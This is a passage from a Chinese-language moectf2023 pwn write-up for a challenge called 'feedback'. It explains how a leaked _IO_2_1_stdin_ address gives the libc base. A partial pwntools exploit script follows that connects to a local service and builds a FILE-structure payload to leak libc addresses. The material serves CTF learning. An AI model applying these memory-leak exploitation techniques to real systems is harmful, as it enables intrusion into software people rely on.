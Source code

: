 ![image-20230930231823921](./moectf2023-pwn-wp.assets/image-20230930231823921.png)



如上，leak出来的地址实际上就是\_IO_2_1_stdin\_的地址，所以将leak的地址减去\_IO_2_1_stdin\_的偏移就是libc_base。用同样的方法可以泄露flag。



exp

```python
from pwn import *
from ctypes import *

CONNECTION = 'REMOTE'

context(os="linux", arch="amd64") 
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
parent_path = "/home/chick/桌面/temp/"
if CONNECTION == 'LOCAL':
    sh = process([parent_path + 'libc/ld-2.31.so',parent_path + 'feedback'], env = {'LD_PRELOAD' : parent_path + 'libc/libc-2.31.so'})
elif CONNECTION == 'REMOTE':
    sh = remote('localhost', 42679)
else:
    sh = null
pwn = ELF(parent_path + "feedback")
libc = ELF(parent_path + "libc/libc-2.31.so")

uu64 = lambda data: u64(data.ljust(8, b'\x00'))
l64 = lambda: uu64(sh.recvuntil(b'\x7f')[-6:])
DEBUG = lambda: gdb.attach(sh)

pad = p64(0xfbad1800) + p64(0) * 3 + b'\x00' # leak libc地址
```